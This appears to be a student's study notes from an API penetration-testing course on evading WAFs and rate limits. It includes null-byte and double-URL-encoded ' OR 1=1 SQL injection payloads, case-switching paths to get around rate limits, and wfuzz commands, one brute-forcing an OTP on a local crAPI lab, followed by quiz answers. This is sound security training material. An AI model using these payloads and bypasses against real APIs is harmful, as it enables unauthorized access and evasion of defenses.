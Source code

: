 # Evasive Maneuvers  

>[Evasive Maneuvers and Combining Techniques](https://university.apisec.ai/products/api-penetration-testing/categories/2150259129/posts/2159225365)  

## String Terminators  

```
%00
0x00
//
;
%
!
?
[]
%5B%5D
%09
%0a
%0b
%0c
%0e
```  

>Example, in the following injection attack to the user profile endpoint, the null bytes entered into the payload could bypass filtering

```
POST /api/v1/user/profile/update
[…]

{
"uname": "hapihacker"
"pass": "%00'OR 1=1"
}
```  

## Case Switching  

>example, POST requests a social media site by attempting an IDOR attack against a uid parameter in the following POST request:  

```
POST /api/myprofile 
[…] 

{uid=§0001§}
```  

>API may leverage rate-limiting to only allow 100 requests per minute.  
>Based on the length of the uid value, you know that to brute force it you’ll need to send 10,000 requests to exhaust all possibilities.  
>To bypass rate-limiting or other WAF controls you may be able to simply alter the URL path by switching upper- and lower-case letters in the path:  

```
POST /api/myprofile paired with uid 001 - 100

POST /api/Myprofile paired with uid 101 - 200

POST /api/mYprofile paired with uid 201 - 300
```  

## Encoding Payloads  

>Alternatively, use double encoding your attacks.  
>Imagine that the API provider has a control in place that provides one round of decoding to requests that are received.  

* URL Encoded Payload: %27%20%4f%52%20%31%3d%31%3b
* API Provider URL Decoder: ' OR 1=1;  

>WAF Rules detect a fairly obvious SQL Injection attack and block the payload.  

* Double URL Encoded Payload: %25%32%37%25%32%30%25%34%66%25%35%32%25%32%30%25%33%31%25%33%64%25%33%31%25%33%62  
* API Provider URL Decoder: %27%20%4f%52%20%31%3d%31%3b  

>Pass by a bad WAF rule to later be decoded and interpreted. Use Burp Suite and WFuzz.

## Payload Processing with Burp Suite  

>Intrudeor Payload Options & Processing:  

![crapi-evasive-maneuvers-waf-bypass-burp.png](/images/crapi-evasive-maneuvers-waf-bypass-burp.png)  

## Wfuzz Encoding payloads  

>Available Encoders: `wfuzz -e encoders`  

```
  Category      | Name              | Summary                                                                           
------------------------------------------------------------------------------------------------------------------------
  hashes        | base64            | Encodes the given string using base64                                             
  url           | doble_nibble_hex  | Replaces ALL characters in string using the %%dd%dd escape                        
  url_safe, url | double_urlencode  | Applies a double encode to special characters in string using the %25xx escape.   
                |                   | Letters, digits, and the characters '_.-' are never quoted.                       
  url           | first_nibble_hex  | Replaces ALL characters in string using the %%dd? escape                          
  default       | hexlify           | Every byte of data is converted into the corresponding 2-digit hex representatio  
                |                   | n.                                                                                
  html          | html_decimal      | Replaces ALL characters in string using the &#dd; escape                          
  html          | html_escape       | Convert the characters &<>" in string to HTML-safe sequences.                     
  html          | html_hexadecimal  | Replaces ALL characters in string using the &#xx; escape                          
  hashes        | md5               | Applies a md5 hash to the given string                                            
  db            | mssql_char        | Converts ALL characters to MsSQL's char(xx)                                       
  db            | mysql_char        | Converts ALL characters to MySQL's char(xx)                                       
  default       | none              | Returns string without changes                                                    
  db            | oracle_char       | Converts ALL characters to Oracle's chr(xx)                                       
  default       | random_upper      | Replaces random characters in string with its capitals letters                    
  url           | second_nibble_hex | Replaces ALL characters in string using the %?%dd escape                          
  hashes        | sha1              | Applies a sha1 hash to the given string                                           
  hashes        | sha256            | Applies a sha256 hash to the given string                                         
  hashes        | sha512            | Applies a sha512 hash to the given string                                         
  url           | uri_double_hex    | Encodes ALL charachers using the %25xx escape.                                    
  url           | uri_hex           | Encodes ALL charachers using the %xx escape.                                      
  url           | uri_triple_hex    | Encodes ALL charachers using the %25%xx%xx escape.                                
  url           | uri_unicode       | Replaces ALL characters in string using the %u00xx escape                         
  url_safe, url | urlencode         | Replace special characters in string using the %xx escape. Letters, digits, and   
                |                   | the characters '_.-' are never quoted.                                            
  url           | utf8              | Replaces ALL characters in string using the \u00xx escape                         
  url           | utf8_binary       | Replaces ALL characters in string using the \uxx escape
```  

>Sample Encoded attacks using `file` wordlist, or `list` of comman seperated:  

```
wfuzz -z file,wordlist/api/common.txt,base64 http://hapihacker.com/FUZZ
wfuzz -z list,a-b-c,base64-md5-none -u http://hapihacker.com/api/v2/FUZZ
```  

>***wfuzz*** using `file` as wordlist and encoding using, dashes `-` to seperate each type of encoder, Base64, then MD5, and also using payload as is, none encoded.  

```
wfuzz -c -d '{"email":"test2@test.com","otp":"FUZZ","password":"WrongPassword1"}' -H 'content-type: application/json' -z file,/home/kali/Downloads/apisec/numbers.txt,base64-md5-none -u http://127.0.0.1:8888/identity/api/auth/v2/check-otp
```  

![crapi-evasive-maneuvers-waf-bypass-wfuzz.png](/images/crapi-evasive-maneuvers-waf-bypass-wfuzz.png)  

>Successfully brute forced the OTP pin using the old version of the API, due to [Improper Assets Management vulnerability](https://github.com/botesjuan/APIsecurityUniversity/blob/main/module/Improper-Assets-Management.md)  
>Using the `@` character at sign tell WFUZZ to apply all encodings to payload at same time.  

>[WAF Evasion Techniques Guide](https://github.com/0xInfection/Awesome-WAF?tab=readme-ov-file#evasion-techniques)  

## Combining Techniques  

>Excessive Data Exposure and Improper Assets Management are both API weaknesses that stand out above the others to combine in order to escalate the impact of your attacks.  
>Improper Assets Management implies that a version of the API may not be as supported as the current version.  
>If you are testing a file upload function, attempt to use the directory traversal fuzzing attack along with the file upload to manipulate where the file is stored.  
>Broken Function Level Authorization (BFLA) or Mass Assignment weakness that give you access to administrative functionality.
>Mass assignment, give a chance that the parameter or parameters that you can alter may not be protected from injection attacks and/or Server-side Request Forgery.  
>API security controls like a WAF or rate-limiting, make sure to apply evasion techniques to your attacks.  
>Encode your attacks and attempt to find ways to bypass security measures.  

----  

>What common API security control can detect an attack and prevent you from making additional successful requests?  

* WAF  

>Which of the following Wfuzz commands will result in applying multiple rounds of encoding to a single payload?  

* `$wfuzz -z list,a-b-c,base64@md5@url -u http://target.com/api/v2/FUZZ`  

>Which of the following is ***not*** a method for evading or bypassing API security controls?  

* Injecting SQL commands  

>Which of the following would ***not*** trigger an API security mechanism?  

* Intense and consistent usage of Wireshark  

>Which of the following is ***not*** helpful for attempting to avoid API security controls?  

* Postman Collection Runner  

>Which of the following combinations of techniques were ***not*** used during the course to successfully exploit crAPI?  

* Injection + Mass Assignment  

>Which of the following vulnerabilities is best combined with other attack attempts?  

* Improper Assets Management  

----  
